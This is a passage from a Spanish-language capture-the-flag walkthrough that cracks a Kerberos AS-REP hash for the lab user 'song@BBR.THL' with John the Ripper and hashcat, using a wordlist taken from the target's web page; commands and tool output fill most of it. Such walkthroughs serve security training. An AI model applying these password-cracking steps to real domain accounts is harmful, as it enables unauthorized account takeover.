 Ahora, tenemos que crackear este hash para encontrar la contraseña y lo haremos con **hashcat** y con **JohnTheRipper**.

Como wordlist de contraseñas, usaremos el que encontramos en la página web.

Primero, lo haremos con **JohnTheRipper**:
```bash
john -w:Skyisthelimit.txt ASREP-hash --format=krb5asrep
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
Will run 6 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
******    ($krb5asrep$23$song@BBR.THL)     
1g 0:00:00:00 DONE (2025-04-17 16:06) 33.33g/s 6700p/s 6700c/s 6700C/s 123456..qwerty123456
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Ahora con **hashcat**:
```bash
hashcat -m 18200 -a 0 ASREP-hash Skyisthelimit.txt
hashcat (v6.2.6) starting
...
...
...
...
$krb5asrep$23$song@BBR.THL:03ca8e428eb7f65eed7f026ca8332ca6$ae9da....:******

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$23$song@BBR.THL:03ca8e428eb7f65eed7f026c...134458
Time.Started.....: Thu Apr 17 16:06:52 2025 (0 secs)
Time.Estimated...: Thu Apr 17 16:06:52 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (Skyisthelimit.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:    56857 H/s (0.29ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 201/201 (100.00%)
Rejected.........: 0/201 (0.00%)
Restore.Point....: 0/201 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 123456 -> qwerty123456
Hardware.Mon.#1..: Util:  3%

Started: Thu Apr 17 16:06:37 2025
Stopped: Thu Apr 17 16:06:53 2025
```
Obtuvimos la contraseña y es la misma que encontramos en el **ataque de fuerza bruta**.

<br>
